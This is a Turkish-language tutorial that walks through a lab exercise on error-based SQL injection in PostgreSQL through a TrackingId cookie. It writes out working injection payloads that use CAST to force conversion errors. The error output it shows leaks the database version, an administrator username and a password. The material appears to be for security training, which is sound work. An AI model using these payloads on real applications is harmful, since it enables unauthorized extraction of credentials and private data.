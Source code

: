 ```sql
CAST((SELECT secret FROM users LIMIT 1) AS INT
```

Eğer secret sütunu string tipindeyse ve bu veri integer'a çevirilmeye çalışılırsa ortaya şöyle bir hata çıkıyor ve hatanın içerisinde veri gözlemlenebiliyor :

```sql
ERROR: invalid input syntax for type integer: "FLAG-abc123"
```

Bu tür hatalar, özellikle karakter sınırlaması gibi payload kısıtlarının olduğu yerlerde oldukça etkili olabiliyor.

Bunu bir örnek üzerinde test edelim.

Bir web uygulamasında TrackingId sistemi olup kullanıcıları bu id üzerinden takip eden bir sistem :
`TrackingId=47auKfqhlHFRVevy` ve burada bir sql injection zafiyeti olduğunu düşünün.

SQL sorgusunu öğrenmek için `47auKfqhlHFRVevy'` tek tırnak işareti ile hata vermesini sağlayabiliriz.
```sql
Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = '47auKfqhlHFRVevy''. Expected  char
```
Sorgu ` SELECT * FROM tracking WHERE id = '47auKfqhlHFRVevy'` sorgusu olarak geliyor.
hatanın kalktığından emin olmak için `--` yorum satırı ekleyebiliriz. Şimdi sorguyu deşip veri aşırma zamanı...

**Veritabanında tip dönüştürme :**
Burada CAST fonksiyonu ile verinin tipini bulunduğu halden istediğimiz hale dönüşmesini belirtebiliriz. Bu uyumsuzluk sayesinde hangi verinin hangi tipe dönüşmeyeceği hususunda bize geri hata döner. Mesela :
```sql
-- Burada uygulamanın veriyonunu CAST ve version() fonksiyonları ile öğreniyoruz. 
AND 1=CAST((SELECT version())AS int)-- Başında ' unutmayın
-- Çıktı
ERROR: invalid input syntax for type integer: "PostgreSQL 12.22 (Ubuntu 12.22-0ubuntu0.20.04.2) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.2) 9.4.0, 64-bit"
```

Pekiii, bu sorguyu veritabanından bilgileri sızdırmak için kullanabiliriz.
```sql
-- Öncelikle veritabanında herhangi bir kısıtlamaya tabi tutulup tutulmadığımızı ölçelim.
47auKfqhlHFRVevy'AND 1=CAST((SELECT username FROM users)AS int)--' -- Sorgu
-- Çıktıda verinin bir kısmının bittiğini görüyoruz. Sorgu 95 karakterlik bir alanı kapsıyor.
Unterminated string literal started at position 95 in SQL SELECT * FROM tracking WHERE id = '47auKfqhlHFRVevy'AND 1=CAST((SELECT username FROM users)AS i'. Expected  char'
--Hem sorguyu hataya dayalı bir şekilde çıkarmaya bakacağız. Hemde 95 karakteri geçmeyecek. O yüzden baştaki id' yi siliyoruz. Where sorgusu kendisinin geriye bir veri döndürmesi gerekli. Trackingid olarak boş bıraksak bile AND operetörü ile geriye bir değer döndürdüğümüzde sorgu tamamlanmış olarak göründüğünden ayrıca bir WHERE hatası almıyoruz.
AND 1=CAST((SELECT username FROM users)AS int)-- Sorgu
-- Çıktı :
ERROR: more than one row returned by a subquery used as an expression
-- Şimdi yeni bir hata ile karşılaştık. Bu ifade sorgunun WHERE üzerinden yapılmayıp bir alt sorgu olarka ele alındığından dolayı ve 1 satıra (1 sayısı yani) karşı birden çok satır döndürdüğü için aldığımız bir hata. Bunu aşabilmek için sorguya LIMIT 1 ifadesi ile iki karşılaştırdığımız nesneyi eşitliyoruz.
AND 1=CAST((SELECT username FROM users LIMIT 1)AS int)-- Sorgu
-- Çıktı olarak istediğimiz veriyi yani kullanıcı adını hataya yazdırmayı başardık
ERROR: invalid input syntax for type integer: "administrator"
-- Aynı sorguyu parolaya erişmek için kullanabiliriz.
AND 1=CAST((SELECT password FROM users LIMIT 1)AS int)-- Sorgu
ERROR: invalid input syntax for type integer: "h66sntiqeof8m946yma1"
```
